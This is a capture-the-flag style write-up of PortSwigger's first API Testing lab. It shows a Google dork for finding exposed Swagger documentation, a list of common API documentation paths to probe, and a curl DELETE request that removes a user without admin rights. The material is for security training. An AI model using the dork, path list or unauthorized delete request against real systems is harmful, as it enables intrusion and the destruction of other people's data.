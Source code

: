 # Portswigger Web Security Academy | API Testing Lab #1

Hi all! Today we’ll be solving the first API Testing lab of the PortSwigger Web Security Academy. Let’s get started!

### Lab Description

![Lab Desc](./images/lab-1-desc.png)

Just by reading the description, we can assume that we’ll probably see API documentation if we find the right path for it. If this is your first time hearing the word “documentation,” it’s a document that helps developers index an API, understand API use cases, inputs, outputs, etc.

Here’s the most popular third-party solution for creating API documentation: [https://editor.swagger.io/](https://editor.swagger.io) 

You can also find other exposed Swagger API documentation using the following Google dork:

```bash
inurl:"swagger-ui/index.html"
```

Normally, this is sensitive document, meaning it should only be published internally to developers, DevOps engineers, project managers, etc. However, sometimes people forget to put proper access controls on these sensitive files. Or they think putting an unpredictable path like `/ade00aa1afbd22345e757bccbf0ac6c5/documentation` is secure enough. But they often forget about Google indexing, Web Archive, Shodan bots, and so on.

Alright, let’s try a couple of possible paths to see if we can actually access an API documentation page:

```
/docs
/openapi.json
/openapi.yaml
/swagger
/swagger-ui
/swagger.json
/redoc
/api/docs
/api/swagger
/api/redoc
/api
/api/v1
/api/v1/docs
/api/v1/swagger
/api/v1/redoc
/v1/docs
/v1/swagger
```

![API Docs](./images/api-docs-1.png)

It turns out `/api` is the path we were looking for. The goal is to remove the `carlos` user, so let's try making a **DELETE** request to the endpoint listed here to see if we can remove it even though we're not an admin user. If we can do it, it indicates an access control vulnerability.

```bash
curl -X DELETE "https://0a2800c0049d4b4f80526c8e0072001a.web-security-academy.net/api/user/carlos" \ 
     -b "session=Qu4HSCLHGhjkLvWEvJDGJaPOV7yDrp3X" \
     -i
```

Make sure to update the session cookie value and the lab subdomain based on your initiated lab data. To get the cookie value, open the Network tab of your browser, go to the request headers, and find the `Cookie` header.

After sending the request, I saw the following response:

```json
{"status":"User deleted"}
```

Then I saw the “Lab Solved” banner in the header. That’s all for this lab. Thanks for reading, and have a nice day!